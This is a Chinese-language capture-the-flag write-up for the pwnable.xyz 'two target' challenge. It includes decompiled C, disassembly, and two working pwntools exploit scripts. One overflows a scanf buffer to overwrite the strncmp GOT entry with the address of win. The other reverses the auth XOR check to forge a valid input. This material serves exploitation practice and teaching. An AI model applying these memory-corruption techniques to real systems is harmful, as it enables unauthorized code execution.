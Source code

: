 ```yaml
---
title: pwnable-two target
date: 2019-12-08 10:56:56
tags:
- pwn
- pwnable.xyz
---
```


# pwnable two target

### 分析

老规矩先检查一下可以从哪个地方下手：

![](https://i.loli.net/2019/12/08/sOEtnRylf6ZWNSq.png)

看起来可以用GOT覆写。

然后分析一下`main`函数：

```c
// Address range: 0x400a26 - 0x400b04
int main(int argc, char ** argv) {
    // 0x400b04
    __readfsqword(40);
    setup();
    int64_t v1; // bp-72
    memset(&v1, 0, 56);
    while (true) {
      lab_0x400b36:
        // 0x400b36
        print_menu();
        uint32_t v2 = (int32_t)read_int32(); // 0x400b46
        if (v2 == 2) {
            // 0x400b9b
            printf("nationality: ");
            int64_t v3; // bp-40
            scanf("%24s", &v3);
            // continue -> 0x400b36
            continue;
        }
        if (v2 <= 2) {
            if (v2 == 1) {
                // 0x400b6d
                printf("name: ");
                scanf("%32s", &v1);
                // continue -> 0x400b36
                continue;
            }
          lab_0x400c0c:
            // 0x400c0c
            puts("Invalid");
            // continue -> 0x400b36
            continue;
        }
        switch (v2) {
            case 3: {
                // 0x400bca
                printf("age: ");
                int64_t v4;
                scanf("%d", (int64_t *)v4);
                // continue -> 0x400b36
                continue;
            }
            case 4: {
                // 0x400bf5
                if ((char)auth(&v1) != 0) {	//多了一个auth 函数
                    // 0x400c05
                    win();
                }
                goto lab_0x400b36;
            }
            default: {
                goto lab_0x400c0c;
            }
        }
    }
}
```

`win`函数：

```c
// Address range: 0x40099c - 0x4009af
int64_t win(void) {
    // 0x40099c
    return system("cat flag");
}
```

所以常规方法的话，应该先处理`auth`函数，才能调用`win`函数。（试过`puts`函数的got覆盖，发现不行。🤷‍♂️）

`auth`函数:

```c
// Address range: 0x400a26 - 0x400b04
int64_t auth(int64_t * a1) {
    int64_t v1 = __readfsqword(40); // 0x400a32
    int64_t str = 0; // bp-56
    for (int64_t i = 0; i < 32; i++) {
        char * v2 = (char *)(i + (int64_t)a1); // 0x400a73
        char v3 = *(char *)(i + 0x400b04); // 0x400aa4
        *(char *)(i - 48 + g4) = v3 ^ (16 * *v2 | *v2 / 16);
    }
    int32_t strncmp_rc = strncmp((char *)&str, (char *)&g1, 32); // 0x400ad4
    int64_t result; // 0x400b03
    if (v1 == __readfsqword(40)) {
        // 0x400ac1
        result = strncmp_rc == 0;
    } else {
        // 0x400afd
        __stack_chk_fail();
        result = &g5;
    }
    // 0x400b02
    return result;
}
```

这里其实看到有`strncmp`的got可以利用一下。😁

那就思考一下怎么覆盖掉`strncmp`的got指向的函数地址。

### 思路

在`main`函数里有两个`scanf`尝试去修改`strncmp`的got，

```assembly
#v2 == 2
0x400bac:   48 8d 45 c0                  	lea rax, [rbp - 0x40]
0x400bb0:   48 83 c0 20                  	add rax, 0x20
0x400bb4:   48 89 c6                     	mov rsi, rax
0x400bb7:   48 8d 3d a5 11 00 00         	lea rdi, [rip + 0x11a5]
0x400bbe:   b8 00 00 00 00               	mov eax, 0
0x400bc3:   e8 58 fc ff ff               	call 0x400820 <scanf>

#v2 == 3
0x400bdb:   48 8b 45 f0                  	mov rax, qword ptr [rbp - 0x10]
0x400bdf:   48 89 c6                     	mov rsi, rax
0x400be2:   48 8d 3d 85 11 00 00         	lea rdi, [rip + 0x1185]
0x400be9:   b8 00 00 00 00               	mov eax, 0
0x400bee:   e8 2d fc ff ff               	call 0x400820 <scanf>
```

发现`v3`和`v4`地址只相差`0x10`,并且在`scanf("%24s", &v3);`中我们发现可以在`v3`中输入24个字节，正好可以覆盖掉`v4`中存储的内容，可以考虑覆盖成`strncmp`的got地址，

然后`scanf("%d", (int64_t *)v4);`这里就可以将`strncmp`的got地址指向的内容改成`win`的起始地址。完成覆盖。

所以现在进入`v2 == 4`即可调用`win`。

完成。

### 代码：

```python
from pwn import *

context.log_level = 'DEBUG'
sh = remote('svc.pwnable.xyz', 30031)
elf = ELF('./challenge')
#print elf.got
strcmp_got = elf.got['strncmp']
win_addr = '0x40099c'
payload = 'A' * 16 + p64(strcmp_got)

sh.sendlineafter('> ', '2')
sh.sendafter(': ', payload)
sh.sendlineafter('> ', '3')
sh.sendlineafter(': ', str(int(win_addr, 16)))
sh.sendlineafter('> ', '4')

sh.interactive()
```

### 另解：

其实完全可以模拟出满足`auth`函数的payload输入进去完成调用`win`的操作。

`g1`和`0x400b04`都是固定的。可以找到包括他们在内的32字节数据，根据算法模拟出`a1`。而且`g1`  = `"\x11\xde\xcf\x10\xdf\x75\xbb\xa5\x43\x1e\x9d\xc2\xe3\xbf\xf5\xd6\x96\x7f\xbe\xb0\xbf\xb7\x96\x1d\xa8\xbb\x0a\xd9\xbf\xc9\x0d\xff";`，另外`0x400b04`其实就是main的起始地址。根据算法可以逆向出来求`a1`的算法。

代码：

```python
main = '55 48 89 E5 48 83 EC 50 64 48 8B 04 25 28 00 00 00 48 89 45 F8 31 C0 E8 24 FE FF FF 48 8D 45 C0'.split(' ')
g1   = '11 DE CF 10 DF 75 BB A5 43 1E 9D C2 E3 BF F5 D6 96 7F BE B0 BF B7 96 1D A8 BB 0A D9 BF C9 0D FF'.split(' ')
result = []
for i in range(32):
    result.append( int(main[i],16) ^ int(g1[i],16) )
payload = ''

for i in result:
    up = i >> 4
    down = ((i << 4) & 0xff)
    # print (up | down)
    payload = payload + chr(up | down)

from pwn import *
context.log_level = 'DEBUG'
sh = remote('svc.pwnable.xyz',30031)
sh.sendlineafter('> ','1')
sh.sendlineafter(': ',payload)
sh.sendlineafter('> ','4')
sh.interactive()
```

### 效果：

![](https://i.loli.net/2019/12/08/P7kICS1XJQqr93E.png)

